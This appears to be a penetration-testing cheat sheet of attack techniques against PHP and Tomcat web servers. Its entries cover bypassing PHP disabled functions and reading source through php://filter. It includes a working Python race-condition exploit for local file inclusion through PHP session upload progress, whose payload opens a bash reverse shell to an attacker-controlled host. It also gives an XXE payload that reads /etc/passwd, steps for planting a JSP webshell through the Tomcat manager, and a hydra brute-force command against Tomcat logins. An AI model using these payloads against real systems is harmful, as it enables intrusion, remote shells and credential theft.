- Bypass `system`
	- `echo passthru("whoami")`
	- `echo shell_exec("whoami")` 
	- `echo exec("whoami")`
- Check disable function
    - `phpinfo();`
    - `<?php var_dump(ini_get('disable_functions'));`
- Bypass Disable Function
    - https://github.com/l3m0n/Bypass_Disable_functions_Shell/blob/master/shell.php
- Wrapper
	- `php://filter/convert.base64-encode/resource=meow.php`
- Default Session Path
    - `/var/lib/php/sessions/sess_{sess_name}`
- LFI PHP_SESSION_UPLOAD_PROGRESS (From Splitline)
    ```python
    import grequests
    sess_name = 'meowmeow'
    sess_path = f'/var/lib/php/sessions/sess_{sess_name}'
    # sess_path = f'/var/lib/php/session/sess_{sess_name}'
    # sess_path = f'/tmp/sess_{sess_name}'
    base_url = 'http://{target-domain}/{target-path/randylogs.php}'
    param = "file"

    # code = "file_put_contents('/tmp/shell.php','<?php system($_GET[a])');"
    code = '''system("bash -c 'bash -i >& /dev/tcp/{domain}/{port} 0>&1'");'''

    while True:
        req = [grequests.post(base_url,
                              files={'f': "A"*0xffff},
                              data={'PHP_SESSION_UPLOAD_PROGRESS': f"pwned:<?php {code} ?>"},
                              cookies={'PHPSESSID': sess_name}),
               grequests.get(f"{base_url}?{param}={sess_path}")]

        result = grequests.map(req)
        if "pwned" in result[1].text:
            print(result[1].text)
            break
    ```
    - [File extension](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
- XXE
    ```javascript=
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>\n' +
        '<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>\n' +
        '<root>' +
        '<name>' + "0" + '</name>' +
        '<search>' + "&b;" + '</search>' +
        '</root>';
    ```
### JSP / Tomcat
- Webshell
    - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp
        - `jar -cvf cmd.war cmd.jsp` and upload to Tomcat admin
- Brute force
    - hydra : `hydra -L  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -f {IP} -s {PORT} http-get /manager/html`